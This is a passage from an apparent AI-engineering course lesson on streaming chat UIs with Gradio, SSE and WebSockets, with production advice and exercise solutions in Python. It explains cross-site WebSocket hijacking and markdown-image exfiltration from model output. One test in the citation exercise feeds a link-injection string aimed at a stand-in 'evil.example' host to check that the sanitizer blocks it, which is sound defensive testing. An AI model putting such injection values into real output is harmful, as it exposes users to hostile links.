| **React/TypeScript** | your own front end on SSE or WebSockets | customer-facing product | you own sanitizing, reconnects and accessibility ([primer A13](../../Appendix_Primers/A13_typescript_for_ai_engineers.md)) |
| **Hosted chat kits** | vendor widget plus your backend | fast embed in an existing app | tie-in to one vendor's event format; typed components come on [Day 80](../../Phase_9_Production/Day_080_generative_ui/generative_ui.md) |

Rule of thumb: Gradio until customers see it, then a front end your web team owns, on the same API.

### In production

- The UI holds no model key. It gets a per-user Atlas API key from its session ([Day 83](../../Phase_9_Production/Day_083_auth_multitenancy_quotas/auth_multitenancy_quotas.md)), and the API sets a CORS allow-list naming the UI origin only.
- Long-lived connections need idle timeouts above your longest silence. SSE gets FastAPI's 15-second ping; WebSockets need the load balancer's upgrade support and a ping interval.
- WebSocket connections pin to one server instance, so deploys must drain them. Clients reconnect and re-ask, because there is no `Last-Event-ID` for free.
- Log `cancelled` events with token counts: a spike in cancels usually means slow or wrong answers ([Day 86](../../Phase_9_Production/Day_086_monitoring_feedback/monitoring_feedback.md)).
- In compose, point the UI at the service name, `ATLAS_API_URL=http://api:8000`, and bind with `ATLAS_UI_HOST=0.0.0.0` ([Day 82](../../Phase_9_Production/Day_082_containerize_deploy/containerize_deploy.md)).

### Commit it to R5

| Block | R5 file |
|---|---|
| `atlas_ui` (5 blocks) | `atlas/ui/app.py` (import `AgentEvent` from `atlas.api.events` and `safe_markdown` from `atlas.safe_output` instead of the copies) |
| `ws_api` minus the stand-in | `atlas/api/ws.py`, mounted at `/v1/ws/chat` in `create_app` |
| `test_ui`, `test_ws` | `tests/test_ui.py`, `tests/test_ws.py` |
| `ws_client` | `scripts/ws_client.py` |

## Go Deeper (optional)

<details><summary>Go deeper: smoothing re-renders by coalescing updates</summary>

Every `yield` makes Gradio send and re-render the whole message, and `to_messages()` plus `safe_markdown()` run over the full text each time. For a 1,500-token answer that's 1,500 renders of a growing string: quadratic work, a busy browser tab, and a visibly jittery cursor on slow laptops. People can't read 80 updates a second anyway. The fix is to **coalesce**: collect whatever arrived in the last 50 ms and render once.

```python
# script_id: day_079_chat_uis_streaming/coalesce
# Stdlib only. Batch a fast event stream so the UI renders ~20 times a second, not per token.
import time
from collections.abc import Iterable, Iterator
from typing import TypeVar

T = TypeVar("T")

def coalesce(items: Iterable[T], every_s: float = 0.05) -> Iterator[list[T]]:
    """Yield everything that arrived since the last yield, at most once per `every_s`."""
    batch: list[T] = []
    last = time.monotonic()
    for item in items:
        batch.append(item)
        if (now := time.monotonic()) - last >= every_s:
            yield batch
            batch, last = [], now
    if batch:
        yield batch                      # flush the tail: the last tokens are never held back

def fake_tokens(n: int = 300) -> Iterator[str]:
    for i in range(n):
        time.sleep(0.002)                # ~500 tokens/s, a fast model
        yield f"tok{i} "

renders = sum(1 for _ in coalesce(fake_tokens()))
print(f"300 tokens -> {renders} renders")
```

```text
300 tokens -> 15 renders
```

Your count will differ slightly. In `chat_fn`, wrap the parser: `for batch in coalesce(iter_sse(r.iter_lines())): events += batch; yield to_messages(events)`. Measure TTFT on the first event of the first batch, not on the first render. Because `coalesce` only yields when a new item arrives, a slow agent step never sits in the buffer: the next event flushes it.

</details>

<details><summary>Go deeper: resuming a dropped SSE stream</summary>

The browser's `EventSource` reconnects on its own and sends the last `id:` it saw in a `Last-Event-ID` header. Day 77 already stamps `seq` ids, so half the protocol is done. The other half is harder than it looks:

- **The server needs a replay buffer.** To resume from event 41 you need events 42 onward, so every stream must write its events somewhere keyed by request id, with a short TTL. A Redis stream fits ([Day 78](../../Phase_9_Production/Day_078_async_jobs/async_jobs.md)).
- **Generation must outlive the connection.** In Day 77's design, a disconnect *cancels* the producer, on purpose, to save money. Resuming only works if the model call keeps running without a listener, which is what background mode (Day 78) gives you.
- **POST streams don't auto-reconnect.** `EventSource` is GET-only, so a `fetch`-based client (and `httpx2` here) must catch the drop and re-send with `Last-Event-ID` itself.

That's why most chat products re-ask on a drop and keep resumable streams for long agent jobs, where losing 3 minutes of work hurts. Decide per route: cheap answers re-ask, expensive runs become jobs with resumable progress.

</details>

<details><summary>Go deeper: WebSockets behind load balancers and browsers</summary>

- **Origin checks.** Browsers send cookies on a WebSocket handshake even from another site, and CORS doesn't apply to WebSockets. If you authenticate WebSockets with cookies, check the `Origin` header against an allow-list during the handshake, or a hostile page can open a socket as your user (cross-site WebSocket hijacking).
- **Heartbeats in both directions.** The `websockets` client's `connect()` has `ping_interval` and `ping_timeout` (confirmed by introspection), so a dead peer is detected instead of waiting forever. Keep the load balancer's idle timeout above the ping interval.
- **Size limits.** `connect(max_size=…)` caps incoming messages on the client. Cap them on the server too, or one client can send a 100 MB "question".
- **Backpressure.** `await ws.send_json(...)` waits when a slow client's buffer is full, which stalls `_pump` and, through it, your read of the model stream. That's the right behaviour for one user, but give each socket a deadline like Day 77's so a stuck client doesn't hold a model stream open forever.
- **Deploys.** A rolling deploy cuts every open socket on the old instance. Send a final event before shutdown, and make clients reconnect with jitter so a thousand of them don't arrive in the same second.

</details>

## Common Pitfalls

- **`TypeError: ChatInterface.__init__() got an unexpected keyword argument 'type'`.** Gradio 4/5 code passes `type="messages"`; Gradio 6 has only that format, so delete the argument (on `gr.Chatbot` too).
- **The whole answer appears at once, or text flickers and duplicates.** Your `fn` returns instead of yielding, or yields only the delta. Yield the *full* text (or full message list) so far, every time.
- **History breaks when you forward it to an API.** Gradio 6 normalizes each history `content` to a list of `{"type": "text", "text": …}` parts. Flatten it first: `"".join(p["text"] for p in m["content"] if p.get("type") == "text")`.
- **Works locally, fails in compose with `httpx2.ConnectError`.** The UI still points at `localhost`, which inside a container is the UI container itself. Set `ATLAS_API_URL=http://api:8000` (the compose service name).
- **A remote markdown image renders and phones home.** HTML sanitizing doesn't police image hosts. Run `safe_markdown()` on every piece of model text *before* it reaches the component.
- **Disconnects vanish into a broad handler.** `except Exception` around the receive loop catches `WebSocketDisconnect`, logs a fake "error", and may try to send on a closed socket. Catch `WebSocketDisconnect` first, then close upstream.

> **Where we stop:** we don't build React or Next.js front ends or design systems. The API and event stream you have work with any of them, and the optional [TypeScript primer](../../Appendix_Primers/A13_typescript_for_ai_engineers.md) shows the client side.

## Key Takeaways

- Users judge an AI product by its first visible feedback, its progress signals and a Stop that works. A spinner within a second beats a faster answer that arrives after a blank screen.
- SSE is one-way and covers tokens, agent steps and stop-by-hanging-up. Add a WebSocket only when the client must talk while the server streams: cancel-and-continue, many asks per connection, or audio.
- The UI is a thin client: it calls the Atlas API, holds no model key, and maps `AgentEvent`s to messages with a pure, testable function.
- Model output is untrusted. `sanitize_html` stops scripts but not remote images, so `safe_markdown()` runs before rendering, and tool arguments are shown as inert code.
- Cancellation has to reach the model. Closing the generator closes the HTTP stream, which closes the producer and the upstream call. Prove it with a "tokens after stop ≈ 0" test.

## Quick Reference

| API / pattern | Use it for | Gotcha |
|---|---|---|
| `gr.ChatInterface(fn=gen, chatbot=gr.Chatbot(...))` | a streaming chat in ~10 lines | no `type=`; yield the full text; `cache_examples=False` if examples call an API |
| `gr.ChatMessage(content, metadata={"title", "status", "log"})` | collapsible tool steps | `status="pending"` shows a spinner; titles render as text, so keep them short |
| `httpx2.stream("POST", url, json=..., timeout=...)` + `r.iter_lines()` | reading SSE in Python | set `read=` above the API's deadline; use it in a `with` so Stop closes it |
| `iter_sse(lines)` | wire lines → `AgentEvent` | skip `:` comment lines (pings); a blank line ends an event |
| `safe_markdown(text)` | any model text into any markdown renderer | sanitize the full text, not deltas; it fails closed into a code block |
| `@app.websocket(path)`, `receive_json`, `send_json` | two-way chat socket | catch `WebSocketDisconnect` first; auth in the first message, not the URL |
| `asyncio.wait({pump, listen}, return_when=FIRST_COMPLETED)` | cancel while streaming | cancel the loser, then `aclose()` the producer in `finally` |
| `websockets.sync.client.connect(url)` | terminal or test client | `recv(timeout=…)` so a dead server doesn't hang you |

## Exercises

1. **Warm-up: metrics under each answer.** Extend the TTFT footer with input and output tokens and an estimated cost, read from the `final` event's `usage` (the ask route sends it).

<details><summary>Solution</summary>

```python
# script_id: day_079_chat_uis_streaming/solution_ex1
# Stdlib only. gpt-6-luna prices as of 2026-11; verify at https://developers.openai.com/api/docs/pricing
PRICE_PER_M = {"input": 0.10, "output": 0.50}       # USD per 1M tokens

def metrics_footer(ttft_s: float | None, usage: dict) -> str:
    tin, tout = usage.get("input_tokens", 0), usage.get("output_tokens", 0)
    cost = (tin * PRICE_PER_M["input"] + tout * PRICE_PER_M["output"]) / 1_000_000
    ttft = f"TTFT {ttft_s:.1f} s · " if ttft_s is not None else ""
    return f"*{ttft}{tin:,} in / {tout:,} out tokens · ≈ ${cost:.5f}*"

# In chat_fn, replace the TTFT line with:
#   usage = next((e.data.get("usage", {}) for e in reversed(events) if e.type == "final"), {})
#   msgs[-1].content += "\n\n" + metrics_footer(ttft, usage)
if __name__ == "__main__":
    print(metrics_footer(0.84, {"input_tokens": 1234, "output_tokens": 312}))
```

```text
*TTFT 0.8 s · 1,234 in / 312 out tokens · ≈ $0.00028*
```

Visible cost changes behaviour: people notice when one question costs 20× another.

</details>

2. **Core: numbered, linked citations.** Replace the `Sources:` line with a numbered list that links each doc id to `https://docs.orbit.example/<doc_id>`, removes duplicates, and drops ids that don't look like doc ids. The result must still pass through `safe_markdown()`.

<details><summary>Solution</summary>

```python
# script_id: day_079_chat_uis_streaming/solution_ex2
# Needs atlas_ui.py in the same folder. No key, no server.
from atlas_ui import _DOC_ID, safe_markdown

DOCS_BASE = "https://docs.orbit.example/"           # an allow-listed host in ALLOWED_HOSTS

def render_citations(doc_ids: list[str]) -> str:
    """Numbered, de-duplicated sources; ids with an unexpected shape are dropped, not linked."""
    kept = list(dict.fromkeys(d for d in doc_ids if _DOC_ID.fullmatch(d)))
    lines = [f"{i}. [{d}]({DOCS_BASE}{d})" for i, d in enumerate(kept, 1)]
    return safe_markdown("**Sources**\n\n" + "\n".join(lines)) if lines else ""

def test_citations() -> None:
    out = render_citations(["dashboard-auth-oidc", "leases-and-heartbeats",
                            "dashboard-auth-oidc", "x](https://evil.example)"])
    assert out.count(DOCS_BASE) == 2 and "evil" not in out
    assert out.splitlines()[-1].startswith("2. [leases-and-heartbeats]")

if __name__ == "__main__":
    test_citations()
    print(render_citations(["dashboard-auth-oidc", "leases-and-heartbeats"]))
```

```text
**Sources**

1. [dashboard-auth-oidc](https://docs.orbit.example/dashboard-auth-oidc)
2. [leases-and-heartbeats](https://docs.orbit.example/leases-and-heartbeats)
```

In `to_messages`, swap the `Sources:` line for `body += "\n\n" + render_citations(cites)`. The id check is a second gate: even a compromised API can't inject a link.

</details>

3. **Core: two questions, one socket.** Write a client that asks a question, cancels it after 3 tokens, then asks a second question on the *same* connection and reads it to `done`. Assert that the producer was closed twice.

<details><summary>Solution</summary>

```python
# script_id: day_079_chat_uis_streaming/solution_ex3
# In-process via TestClient (no server). Against a live server, use websockets.sync.client.connect.
from fastapi.testclient import TestClient

from ws_api import STATS, create_ws_app

def ask(ws, question: str, cancel_after: int | None = None) -> dict:
    ws.send_json({"type": "ask", "question": question})
    tokens = 0
    while True:
        e = ws.receive_json()
        tokens += e["type"] == "token"
        if cancel_after is not None and tokens == cancel_after:
            ws.send_json({"type": "cancel"})
            cancel_after = None                     # send it once
        if e["type"] in ("done", "cancelled", "error"):
            return {"end": e["type"], "tokens": tokens}

if __name__ == "__main__":
    STATS.update(produced=0, closed=0)
    with TestClient(create_ws_app()) as client, client.websocket_connect("/v1/ws/chat") as ws:
        first = ask(ws, "Why does OIDC login loop?", cancel_after=3)
        second = ask(ws, "How do retries back off?")
    print(first, second, STATS)
    assert first["end"] == "cancelled" and second["end"] == "done" and STATS["closed"] == 2
```

```text
{'end': 'cancelled', 'tokens': 3} {'end': 'done', 'tokens': 200} {'produced': 203, 'closed': 2}
```

Your first token count may be 3 or 4: one token can be in flight when the cancel lands. This is the property SSE can't give you: the session survives the cancel.

</details>

4. **Stretch (optional): the same chat in Streamlit.** Rebuild the chat with `st.chat_message`, `st.chat_input` and `st.write_stream`, still calling the Atlas API (not the model). Note two places where Streamlit's rerun model or `write_stream` makes safe streaming harder.

<details><summary>Solution</summary>

```python
# script_id: day_079_chat_uis_streaming/solution_ex4
# Install: uv add "streamlit>=1.67" gradio httpx2 markdown-it-py   Services: the Day 77 API
# Run: uv run streamlit run solution_ex4.py   (reuses atlas_ui.py from the same folder)
# st.chat_message / st.write_stream shapes follow Streamlit 1.67 (verified against Streamlit 1.67; not run in course CI)
from collections.abc import Iterator

import httpx2
import streamlit as st

from atlas_ui import API_URL, iter_sse, safe_markdown

def safe_lines(question: str) -> Iterator[str]:
    """write_stream renders what it gets, so sanitize whole lines before handing them over."""
    buf = ""
    with httpx2.stream("POST", f"{API_URL}/v1/ask/stream", json={"question": question},
                       timeout=httpx2.Timeout(10.0, read=70.0)) as r:
        for e in iter_sse(r.iter_lines()):
            buf += e.data.get("text", "") if e.type == "token" else ""
            while "\n" in buf:
                line, buf = buf.split("\n", 1)
                yield safe_markdown(line) + "\n"
    if buf:
        yield safe_markdown(buf)

if "msgs" not in st.session_state:          # every interaction reruns this file from the top
    st.session_state.msgs = []
for m in st.session_state.msgs:
    with st.chat_message(m["role"]):
        st.markdown(m["content"])
if prompt := st.chat_input("Ask Atlas"):
    st.session_state.msgs.append({"role": "user", "content": safe_markdown(prompt)})
    with st.chat_message("user"):
        st.markdown(safe_markdown(prompt))
    with st.chat_message("assistant"):
        text = st.write_stream(safe_lines(prompt))   # returns the full str
    st.session_state.msgs.append({"role": "assistant", "content": text})
```

Two lessons from building it. First, `st.write_stream` renders each chunk as it arrives, so handing it raw tokens would show an attacker's image before any sanitizer ran; buffering whole lines makes it safe, but the answer now appears line by line. Second, the whole script reruns on every interaction, so anything outside `st.session_state` (the chat history, a half-finished stream) is gone on the next click.

</details>

## References & Further Reading

- [Gradio: creating a chatbot fast](https://raw.githubusercontent.com/gradio-app/gradio/main/guides/05_chatbots/01_creating-a-chatbot-fast.md): the official `ChatInterface` guide, including streaming generators.
- [Gradio: agents and tool usage](https://raw.githubusercontent.com/gradio-app/gradio/main/guides/05_chatbots/03_agents-and-tool-usage.md): `ChatMessage` metadata for collapsible thoughts and tool steps.
- [FastAPI: WebSockets](https://raw.githubusercontent.com/fastapi/fastapi/master/docs/en/docs/advanced/websockets.md): the official tutorial for `@app.websocket`, `WebSocketDisconnect` and testing.
- [FastAPI: server-sent events](https://raw.githubusercontent.com/fastapi/fastapi/master/docs/en/docs/tutorial/server-sent-events.md): the native SSE support the Day 77 API is built on.
- [MDN: Using server-sent events](https://developer.mozilla.org/en-US/docs/Web/API/Server-sent_events/Using_server-sent_events): `EventSource`, reconnection and `Last-Event-ID` from the browser side.
- [MDN: The WebSocket API](https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API): browser-side WebSockets, and why the constructor can't set headers.
- [MDN: Cross-site scripting (XSS)](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XSS): the attack class behind every rendering rule in this lesson.

## What's Next

Your chat renders text, steps and citations. On [Day 80: Generative UI](../../Phase_9_Production/Day_080_generative_ui/generative_ui.md) the model stops returning only markdown and starts choosing typed UI components, such as a duplicate-candidates card, which reuse today's `AgentEvent` stream and `safe_markdown()`.
